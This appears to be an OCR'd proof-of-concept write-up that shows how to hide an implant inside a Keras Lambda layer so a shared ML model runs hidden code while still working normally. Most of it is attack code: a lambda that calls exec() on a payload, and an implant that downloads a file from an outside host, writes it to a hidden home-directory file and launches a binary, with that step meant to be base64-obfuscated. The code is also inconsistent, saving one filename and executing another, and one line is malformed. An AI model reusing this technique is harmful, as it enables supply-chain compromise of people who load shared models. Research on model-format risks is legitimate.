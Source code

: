 In TensorFlow, the Keras Lambda layer offers a convenient way to run arbitrary expressions which may not have equivalent built-in operators. One would typically use that layer to write mathematical expressions to transform data, but nothing prevents you doing whatever, like calling the Python built-in exec() function.


**TLDR** you can hide whatever you need in many popular ML model formats. Some formats are more resistant than others.


## PoC - Most Basic, commented example.
A non commented version can be found in the Github Repo:
The model will work as expected at the end (mathematically correct). 

Let’s start by creating a Keras lambda layer for arbitrary expressions:

```python
from tensorflow import keras

``` 

Next, we'll define the lambda layer for arbitrary expressions:

 ```
 from tensorflow import keras
# define some believable looking vars here
# create the lambda layers as data pass-through while performing the attack as a side effect. 
# exec() function always returns None, so combining `or` operator returns input as-is.
attack = lambda x: exec(""" $PAYLOAD """) or x 
# continue with the model code here

``` 

Let's break down the implant, which is what the $PAYLOAD variable contains:
``` 
 # this is what exists in our exec() call above.
import os
import sys
import base64
import pickle
import requests
from tensorflow import keras 

r = requests.get("https://lambda.on.aws/", headers={'X-Plat': sys.platform})
dir = os.path.expanduser('~')
file = os.path.join(dir,'.implant.bin')
with open(file,'wb') as f:
    f.write(r.content)
exec(base64.b64decode(“ ”)
# Inside the b64 we put this, but encoded:
import os, subprocess
os.chmod(file, 0o755)
try:
    subprocess.Popen([os.path.join(os.path.expanduser('~'),'.training.bin')], start_new_session=True)
except:
    pass

```
